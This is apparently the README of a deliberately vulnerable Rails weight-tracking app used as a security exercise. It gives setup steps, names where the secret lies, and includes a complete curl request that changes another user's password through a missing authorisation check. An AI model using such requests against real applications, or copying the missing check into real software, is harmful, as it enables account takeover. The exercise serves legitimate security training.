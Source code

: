 # Weight Tracker

This is a work in progress application that allows a user to track their
weight.

## Setup

~~~
$ bundle install
$ bundle exec rails db:migrate
$ bundle exec rails setup
$ rails server
~~~

## Secret location

You'll find the secret on the profile page of the user with email address
'peter.parker@gmail.com'.

curl 'http://localhost:3000/users/1' -H 'Cookie: _weight_tracker_session=dURwQmJFT0ZTTW83WkFIdTBJZEt0ZG02QzIrOHhpbDZITmYzbmRzaitoQ3hKTnRvSXR2NllrcElWVld5MEdJcUlEb0lOUGpHVXkzMU5xRVd3VEJRV1A0QXRyVWU2VFp0WnZYRHY4c3JWZ1BQL1M5YmQ3Ujc5bTg4TzEwdEZyRXphZWppOFNpOWdnNTdMNUZ6Ri96OWNCQnRaUUQzTWltSFpkM3ZNajJPVDlVV1dkb0NtM1ZiVlNoTkZsNE4zS25tLS1vSXVJcHJGUCtEcm9OYThrMTYwUHB3PT0%3D--678b1e32d00d194ab028a2e4e068290296c8e960' -H 'Origin: http://localhost:3000' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Referer: http://localhost:3000/users/245/edit' -H 'Connection: keep-alive' --data 'utf8=%E2%9C%93&_method=patch&authenticity_token=H0Zs1Ickvkbh3TjjRP46JJE8Y2jAonObt8GTmrVEp10SgLVfAzxppd3bXtIO0oV7FWl4ZMgnvt%2FerEkDNMp62A%3D%3D&user%5Bpassword%5D=thisisatest&user%5Bmedications%5D=&commit=Create+account' --compressed